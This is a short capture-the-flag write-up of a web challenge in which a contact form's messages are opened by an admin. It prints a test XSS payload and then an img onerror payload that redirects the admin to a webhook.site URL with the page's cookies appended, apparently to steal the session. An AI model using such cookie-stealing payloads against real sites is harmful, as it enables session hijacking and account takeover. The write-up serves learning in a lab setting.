


Github Repo with official writeups: NTUAH4CK-3.0 by Thread-in-the-Needle
Description
Admin doesn’t take security seriously when reviewing user messages. Can you exploit this? Flag format: NH4CK{a-g}
Tags: web
Navigate to the website and start by checking the /contact page.

The description makes it obvious that something is vulnerable at the message area.

When we send a dummy reguest we get a Request Successful message. We can’t see anything reflected to our end and probably the message is sent to the administrator to open and read.
So for example a payload like <img src=1 onerror=alert()> would pop up an alert box to the admin when opening the message. But this way we cannot exploit the vulnerability to, maybe, steal his account.
Another way would be to use a server or something like webhook.com and redirect the admin there to steal his cookies.
<img src=1 onerror="location.href='https://webhook.site/<id>/?c=' + document.cookies">
We got the request to webhook.com which means admin open the message, got redirected and gave away his cookies. Now we could sign use them to login to his account without any restrictions.

The flag is printed instead of his cookies.